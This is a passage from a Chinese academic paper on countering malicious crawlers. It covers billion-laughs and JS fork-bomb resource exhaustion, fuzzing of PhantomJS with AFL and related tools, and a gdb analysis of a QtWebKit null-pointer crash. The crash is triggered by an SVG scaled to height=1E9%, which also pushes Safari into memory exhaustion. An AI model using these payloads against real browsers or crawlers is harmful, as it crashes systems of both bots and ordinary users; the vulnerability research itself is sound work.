资源耗尽型对抗技术主要利用的是针对一些有渲染功能的爬虫(不一定需要javascript的支持),在渲染服务器提供的存在恶意递归或者死循环的javascript或者html代码的时候,由于没有限制进程/线程的执行,导致大量的计算和存储资源被占用,影响爬虫性能,甚至导致宿主机奔溃的情况。一般情况下,爬虫使用了都是自动化的测试方案,无法及时对恶意载荷的执行进行阻断,所以一旦被恶意的攻击载荷占用大量的计算和存储资源,就必须重启所有相关的进程,这种情况下很可能会导致运行中的任务状态和其他相关信息的丢失,造成大量的损失。

在我们的对抗技术,我们采用了两种比较经典的资源耗尽型攻击技术作为示范。首先是billion laugh,其主要的利用原理是浏览器在渲染xml的时候,尝试对xml中引用的实体进行解析,而这些实体又引用了大量的其他实体,最终形成指数级别的引用,占用执行者大量的计算和存储资源。其次是js fork bomb,该攻击载荷利用的是能够执行javascript的爬虫,递归地去执行某个函数,并且每次执行的时候,因为javascript的异步特性,去生成新的线程。最终导致系统因为fork了过多的线程,而无法运行任何新的程序。 billion laugh和js fork bomb的具体攻击载荷见附录B1。

资源耗尽型对抗技术的攻击载荷,具有无差别攻击的杀伤力,任何的无头浏览器和普通浏览器都有可能在执行相关的攻击载荷后奔溃。因此,在使用该类型的载荷时,我们需要保证我们攻击的目标不是普通用户的浏览器。一般而言,该攻击载荷主要用于攻击消耗了大量服务器资源的失控爬虫,通过耗尽爬虫计算资源而限制其对web服务器的访问。


\section{内存破坏型对抗技术}
内存破坏型对抗技术主要是利用特殊的攻击载荷,破坏爬虫进程在内存层次上的内存布局,进一步触发可能的空指针引用,栈溢出,堆溢出以及double free等内存布局相关漏洞的技术。与之前提到资源耗尽型对抗技术相比,内存破坏型对抗技术更难防御,即使使用了目前的主流的stack canary,DEP和ASLR等技术\upcite{gisbert2014effectiveness},大部分虽然情况下难以获得最终的系统权限,但仍然能使得相关进程触发异常而奔溃。而且因其技术门槛高,缺乏相关专业知识的恶意爬虫作者无法分析爬虫程序奔溃的根本原因,从而大大增加恶意爬虫制作者的爬取成本,有效遏制恶意爬虫对网站的干扰。在本章节中,我们主要从4T(Techniques,Tactics,Tools,Targets)入手,具体分析针对爬虫webdriver程序的漏洞挖掘和漏洞利用。

\subsection{使用的漏洞挖掘技术(Techniques)}



\subsubsection{符号执行}
符号执行是二进制动态分析中一种至关重要的技术。它的关键思想是使用符号值而不是固定值,用作程序或者函数的输入。并将程序中的变量表示成与符号输入相关的符号表达式。最终,程序输出的计算结果以符号输入的函数表示\upcite{cadar2013symbolic}。
在软件测试中,符号执行常用于生成能够达到每一个执行路径的测试输入集。简而言之,就是一个程序执行的路径通常是true和false条件的序列,这些条件是在分支语句处产生的。在序列的$i^{th}$位置如果值是true,那么意味着$i^{th}$条件语句走的是then这个分支;反之如果是false就意味着程序执行走的是else分支。一个程序中的所有路径可以构成一株执行树。
符号执行在执行过程中维护一个状态a,用于将变量映射到符号表达式,以及一个符号路径约束PC,这是一个无量词的一阶公式。在函数的初始化阶段,a被初始化成空的映射,PC为True。a和PC在符号执行过程中不断被更新。当符号执行到达一条执行路径的尽头时,可以通过约束求解器和给定的PC,计算出能够到达该路径的实际值。对于包含循环或者递归的代码的符号执行,如果循环或者递归的次数是符号化的,那么可能回得到一个无穷的路径。 

因此,在实际应用中,通常需要限制符号执行的超时时间或者路径的数量。传统的符号执行还有一个致命的缺陷,就是当符号路径中存在不能被约束求解器高效求解的公式时,符号执行的输入就难以被计算出来。

\subsubsection{动态污点分析}

动态污点分析的目的是在源和目的之间追踪信息流,它在程序运行过程中,通过实时监控程序的污点数据在系统程序中的传播来检测数据能否从污点源传播到污点汇聚点。程序中任何从污点数据计算得出的变量都被认为已污染(tainted),其他变量被认为未污染(untainted)\upcite{newsome2005dynamic}。污染策略P决定污点在程序执行的过程中如何流动,什么样的操作会产生新的污点,以及针对已污染的数据会有什么样的检查。尽管污染策略会随着被分析的程序的不同而改变,但是基本的概念是一致的\upcite{schwartz2010all}。在污点分析的过程往往会有两种错误,一是污点分析可能会将一个不是从污点数据导出的数据标记成已污染,这样现象被称为过污染(overtained);此外,动态污点分析可能在分析过程中损失一些信息流,被称之为欠污染(undertainting)。如果一个动态污点分析,既不是欠污染,又不是过污染,那么它可以被认为是准确的。

一个完整的动态污点策略包含三个属性:如何引入污点,如何传播污点以及如何检查污点。
\begin{itemize}
\item[1)] 污点引入:一种典型的引入方法是,把所有变量,内存单元全部初始化为未污染状态,我们只有一个单一的输入源get\_{}input函数。在真实场景中,get\_{}input获取到的用户输入来自于系统调用或者函数库调用的返回值\upcite{egele2007dynamic}。污点策略在不同的输入源类型中也会有所不同。
\item[2)] 污点传播:污点传播规定了从污点数据导出的变量的污点状态。因为污点状态可以用1bit来表示,因此,通常用命题逻辑来表示污点传播策略。例如,t1 $\cup$ t2表示如果t1和t2均被污染,则当前结果为被污染。
\item[3)] 污点检测:污点状态值通常被用于决定程序运行时的行为。例如,攻击监测器会在跳转地址被污染的情况下停止程序。在SIMPIL\upcite{flanagan2001avoiding}中,通过把策略加入到操作语义的前置条件中来实现污点检测。T-GOTO规则使用的是Pgotocheck(t)策略,如果跳转地址有一个被污染的值t,且跳转是安全的时候,Pgotocheck(t)会返回T,否则返回F。如果F被返回,规则的前提条件不能满足,最终导致程序的不正常退出。
\end{itemize}

目前动态污点分析主要面临如下挑战:
\begin{itemize}
\item 污染地址:很难区分存储地址和存储单元;
\item 欠污染:不能够正确处理某些形式的信息流;
\item 过污染:去除污点比引入污点更加难。
\end{itemize}


\subsubsection{模糊测试}

模糊测试(fuzz)一直是最常用于发现软件漏洞的技术\upcite{manes2019art}。从高层次看,他指代的是一种重复使用在语法或者语义上畸形的数据来运行进程的一种技术。在实际的攻击过程中,攻击者会在特定的场景下使用fuzz技术,例如exploit生成以及渗透测试。一些参赛队伍也在2016年的DARPA CGC在他们的推理系统中使用了相关的技术\upcite{song2015darpa}。在这种激励下,一些软件的尝试也开始尝试使用fuzz技术,在黑客之前发现存在于他们的软件系统中的漏洞。

通常情况下,一套完整的fuzz测试流程是这样子的:首先由用户提供fuzz测试相关的配置并给定执行时间设置,fuzzer会在根据配置和当前的运行情况生成相应的攻击载荷,并将攻击载荷提供给指定二进制程序执行,在程序执行完毕后,fuzzer会收集程序执行的状态,并判定返回结果是够存在漏洞以及crash,在将有效的结果并到结果集中后,fuzzer会根据当前运行情况更新配置,并循环执行上述的流程。

模糊测试一般根据fuzz能够观察到的语义粒度将fuzz分为三类:黑盒fuzz,白盒fuzz以及灰盒fuzz。黑盒fuzz常用与软件测试,在测试过程中,fuzzer无法接触到PUT(测试中的程序),只能向运行的程序提供输入并捕获输出。在另外一种极端的情况下,白盒fuzz中fuzzer将会通过分析PUT的内部信息来产生输入并捕获输出。灰盒fuzz介于白盒fuzz以及黑盒fuzz之间,通常情况下,它会收集一些PUT执行时产生时的内部信息,但不像白盒测试,它不会对PUT的高层语义进行分析。


\subsection{使用的漏洞挖掘工具 (Tools)}
我们使用了一些比较成熟的工具来进行漏洞挖掘,这些工具在底层使用了一种或多种上述的漏洞挖掘技术,而且还有相关的学术论文做理论支持。充分利用这些工具的优势,可以大大降低我们的漏洞挖掘的成本。

\begin{itemize}
\item[1)] libfuzzer:libfuzzer是一款覆盖率指引的颠覆性的fuzz引擎,它会链接需要fuzz的库函数,并通过一个具体的fuzz入口点将fuzz的输入内容提供给库函数。之后,libfuzzer会追踪程序执行能够到达的代码块,并通过变异输入数据的语料库来最大化代码块覆盖率,该代码覆盖率的信息由LLVM的SanitizerCoverage插桩提供。

\item[2)] AFL:AFL(American Fuzzy Loop)是一款采用了极度简单但也极度健壮的覆盖率引导的fuzz工具。它采用了一种改良的edge覆盖率导向的算法来找到使局部的控制流变异的输入。整个工具的运行流程可以简化为:(1)加载用户提供的初始测试用例到队列; (2)从队列中取出一个输入;(3)尝试将输入最小化为不改变当前程序控制流的输入;(4)不断地使用一些变异策略来改变输入;(4)如果输入的改变导致了新的转态转移,则将该变异输入加到队列中去。

\item[3)] Driller:Driller是对driller这篇论文的一个具体实现\upcite{stephens2016driller},它首先将符号执行技术与模糊测试技术结合在一起。它的实现是基于AFL的,并且使用angr作为符号执行的追踪器\upcite{shoshitaishvili2016sok}。当这些由AFL生成的输入无法产生新的执行路径的时候,Driller会有选择地追踪这部分输入。Driller还会取出所有存在AFL队列中但未被追踪的执行路径,并寻找一些AFL无法找到相应输入的基本块之间的状态转移。Driller会使用angr来合成这些输入并将其放入AFL队列。之后,AFL会继续运行并将变异这些输入来发现更多可能的执行路径。

\item[4)] VUzzer:VUzzer工具是基于已有的动态污点分析工具DataTracker开发而来的模糊测试工具,它主要依赖于libDFT pintool\upcite{rawat2017vuzzer}。VUzzer具有优秀的程序感知功能,在运行时不需要给VUzzer提供二进制程序的先验知识以及输入的格式要求。而为了最大化fuzz的代码覆盖率以及测试深度,VUzzer会在静态特征和动态分析的基础上,利用控制流和数据流的特征来推测程序基础的属性。这一特性也意味着VUzzer与普通的fuzzer相比,能够更快地找到有意义的输入。

\end{itemize}


\subsection{使用的漏洞挖掘目标 (Targets)}
爬虫常用的webdriver一般情况下都是开源的,因此,这些webdriver我们均可以使用上述工具来进行漏洞挖掘,其原理与大致流程并无太大差异。此处我们使用PhantomJS来作为我们的漏洞挖掘的目标,PhantomJS是一款支持支持javascript的可编程无头浏览器,可以运行在各种不同的操作系统上\upcite{phantom}。选择PhantomJS作为漏洞挖掘目标,主要是基于三方面的考量:

\begin{itemize}
\item[1)] PhantomJS更加轻量化。对比PhantomJS和常见的诸如chromium之类的无头浏览器,PhantomJS实现的特殊浏览器功能更少,更专注于为爬虫提供与网页交互的接口。因此,PhantomJS的代码的数量和fuzz的难度将远远低于其他的无头浏览器;
\item[2)]  PhantomJS使用的用户群体更多。正因为PhantomJS轻量级的特性以及很高的运行效率,很多非专业的爬虫都更愿意使用PhantomJS作为其javascript的解释执行器;
\item[3)]  PhantomJS存在的漏洞更多。在对各类无头浏览器的情况进行调研之后,我们发现了PhantomJS的工程中存在近千条issue,而且很多issue仍然是open状态。这也意味着PhantomJS的程序不具备很高的健壮性,在漏洞挖掘工具面前也会更加脆弱。
\end{itemize}


PhantomJS的底层使用的是基于QT framework的webkit,我们fuzz的重心在该框架上。PhantomJS的整体架构如图\ref{fig:PhantomJS}所示,PhantomJS的底层使用了基于QT framework的webkit,在顶层使用Ghost Driver与selenium进行通信。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/phantomjs_arch.png}
  \caption{PhantomJS架构}
  \label{fig:PhantomJS}
\end{figure}



\subsection{使用的漏洞挖掘策略 (Tactics)}
根据上文中提到的三种技术的性质,并结合我们使用的漏洞挖掘的目标二进制程序的特性,我们制定了相关的漏洞挖掘的策略,通过这些策略,能够让我们尽可能高效地去挖掘目标二进制程序的漏洞,并让我们能够在发现相关crash后,尽可能快地定位到触发漏洞的关键函数和关键载荷。我们制定的基本策略如下:


\begin{itemize}
\item[1)] 程序分割:因为原本的程序中会包含大量和我们测试无关的代码,且原先的程序的所有代码是开源的。为了保证我们在模糊测试过程中的执行覆盖率以及降低符号执行过程中出现的路径爆炸问题,我们尽可能地对原先的程序进行一些分割,尽可能去除掉一些无关的代码,保证最终编译生成的程序体积最小化,以及从原始输入到关键渲染函数最浅的调用深度。通过这些优化,来增加我们发现漏洞的可能性和效率。

\item[2)] 输入筛选:在我们使用的漏洞挖掘工具中,都需要给定一些初始的种子文件和初始化输入,来保证初始化执行的时候执行路径的覆盖率。在此处,我们提供给PhantomJS的输入是需要被渲染的内容,输入样本的数量和大小都会有相当大的差异。因此,我们需要对收集的渲染样本进行筛选,选择的标准是:(1) 保持样本的覆盖率 (2)尽可能减小样本的大小 (3)保证不同样本的覆盖范围不一样。 此处我们使用的样本由google zero project的domato生成\upcite{domato},该工程事先定义了不同渲染的样本的一些必要结构,并利用适当的语法规则生成样本。我们从生成的样本中人工挑选出覆盖率较大的样本作为漏洞挖掘的种子文件。使用AFL编译的二进制文件,可以使用其提供的afl-cmin工具来合并以及最小化输入的corpus。

\item[3)] 执行优化:类似于AFL的fuzz工具可以在编译过程中使用LLVM mode,通过编译时的优化可以使二进制程序的fuzz速度达到原先的两倍,进而大大增加单位时间内找到crash的可能性。
\end{itemize}

\subsection{漏洞挖掘效果}
我们分别使用了三种工具来挖掘PhantomJS中可能存在的漏洞。我们使用Driller和AFL在不使用程序分割的情况下直接对原始的程序进行插桩和fuzz,而对于libfuzzer,我们将PhantomJS使用的QTwebkit从程序中单独剥离出来,并使用其基本的render功能对于从标准输入中读取的字符串进行渲染,具体实验流程参加附录C。 我们分别在三台服务器上使用三种不同的工具对PhantomJS进行fuzz,使用的fuzz种子文件包含了pdf,html,js,png,jpg以及svg文件格式。最终我们在使用了AFL的主机上观察到了以svg文件作为种子文件时产生了大量hangs错误。

hangs不同于crash,hangs往往是因为产生的攻击载荷导致二进制程序的响应超时而出现问题,但通常也可能会导致最终的crash。我们尝试将所有导致的hangs的svg文件导出,并使用原二进制程序手动执行,最终发现hangs文件夹下一个编号为 id:000013的输入文件(已重命名为1.svg)可以导致PhantomJS程序在渲染其内容产生奔溃,如图\ref{fig:segment}所示。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/seg_fault.png}
  \caption{PhantomJS segment fault}
  \label{fig:segment}
\end{figure}

在使用相应的javascript脚本,加载并渲染1.svg矢量图片时,产生了segment fault的非法内存访问的问题,从而导致PhantomJS相关进程发生了崩溃。

我们尝试使用gdb去捕获触发异常的函数,发现漏洞触发点位于函数 QVector<QPainterPath::Element>::reallocData(int, int, QFlags<QArrayData::AllocationOption>) 上。通过查阅相关文档后发现,该函数为QTwebkit中负责为Qvector分配内存空间的函数。而当该函数执行失败后, 返回为空指针,但是在随后的Q\_{}ASSERT访问了该空指针的某个成员变量,从而导致空指针引用的漏洞,最终造成程序崩溃。存在漏洞的代码片段如图\ref{fig:vuln}所示,该漏洞函数可以通过gdb调试发现。


\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/vuln_func.png}
  \caption{存在漏洞的代码片段}
  \label{fig:vuln}
\end{figure}



而导致该漏洞产生的直接原因在于svg是矢量型图片,可以设置缩放比例。而在我们使用的svg中。缩放比例被fuzz成1E9\%,这也意味着该图片会被放大1000万倍。QTwebkit中没有对svg的渲染资源进行限制,最终导致渲染过大的svg图片而申请内存失败,返回并引用了空指针。

此外,我们注意到漏洞存在的函数位于QTwebkit中,而并不仅仅是PhantomJS。因此,所有使用了QTwebkit的浏览器都有可能受到该漏洞的影响。此外,我们猜想部分浏览器在开发过程中可能没有考虑到svg的这种特性,也有可能触发类似的漏洞,因此,我们在主流的浏览器上也测试了我们的攻击载荷。最终我们发现,基于webkit开发的safari浏览器也存在类似的问题,虽然无法触发进程crash,但是可以触发OOM (out of memory),让操作系统奔溃。图\ref{fig:oom}展示了safari在访问包含该svg的网页时的状态,其中http://fuzz为safari访问该网页时生成的进程,可以看出该网页进程一度占用了超过12G的内存(共16G内存)。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/safari_oom.jpg}
  \caption{safari OOM 漏洞}
  \label{fig:oom}
\end{figure}


综上,我们可以预见该攻击载荷对于使用了PhantomJS作为webdriver的恶意爬虫的杀伤力,与此同时,该攻击载荷对于使用了safari的普通用户而言,也能产生严重的攻击效果。

\subsection{PhantomJS漏洞分析}
在确定能够触发漏洞的样本后,我们首先使用gdb尝试定位到具体的漏洞触发函数。gdb的调试命令如下所示。

\lstset{language=JavaScript}
\begin{lstlisting}
 gdb --args  /root/fuzz/phantomjs/bin/phantomjs /root/fuzz/crash/test2.js  test.svg 
 \end{lstlisting}
 
\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/gdb_backtrace.png}
  \caption{GDB backtrace}
  \label{fig:bt}
\end{figure}

 直接运行后,我们可以在gdb中捕获到segment fault。此时,我们可用使用gdb自带的backtrace功能查看漏洞触发时的函数调用栈帧情况,如图\ref{fig:bt}所示。不难看出我们的漏洞存在QVector<QPainterPath::Element>::reallocData函数中,该函数对应的代码文件位置为:phantomjs/src/qt/qtbase/src/corelib/tools/qvector.h。 我们在gdb中使用反汇编功能可以查看到触发漏洞具体的汇编代码,如图\ref{fig:gdb}所示。对应的触发漏洞的汇编指令为:mov DWORD PTR [rax+0x4],r13d。
 
\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/gdb_disassemble.png}
  \caption{GDB 反汇编代码}
  \label{fig:gdb}
\end{figure}

 
 由上图可知,在调用了函数QArrayData::allocate函数(可以使用c++filt工具还原其函数名)之后,函数将allocate分配的地址空间作为返回值存储于rax寄存器,并在之后通过对该地址中对应成员变量的修改触发漏洞。在查看当前的寄存器值后,可以发现,QArrayData::allocate返回的地址空间指针为0x0,即空指针,因此之后对该指针指向对象的成员变量操作时将会触发空指针引用的错误。
 
 为了进一步探究allocate函数返回空指针的根本原因,我们修改源代码加入对allocate函数传递参数的监控,如图\ref{fig:allocate}所示,每次运行时,会打印程序执行过程中,调用allocate函数时使用的参数,其中第一个参数为分配内存大小的十六进制表示。
 
\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/gdb_parameter.png}
  \caption{allocate函数参数监控}
  \label{fig:allocate}
\end{figure}


  
从结果可以看出,allocate传入的参数中代表分配内存的参数每次调用都在以指数级的形式增长,最多的情况下,整个PhantomJS的进程已经占用到了系统的1G内存。由此,我们结合QTwebkit的相关文档,不难得出结论:allocate函数对最大分配的内存空间有限制,一旦超过指定的大小,则返回空指针。而攻击载荷中的height=1E9\%正是消耗大量内存的关键,这个参数相当于将整张svg图片的画布放大了1000万倍,从而导致在初始化该画布的时候,不断地尝试申请内存资源,直到进程crash为止。攻击载荷的具体内容如下图\ref{fig:svg-payload}所示。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/svg_payload.png}
  \caption{SVG 攻击载荷}
  \label{fig:svg-payload}
\end{figure}

\section{敏感信息窃取型对抗技术}

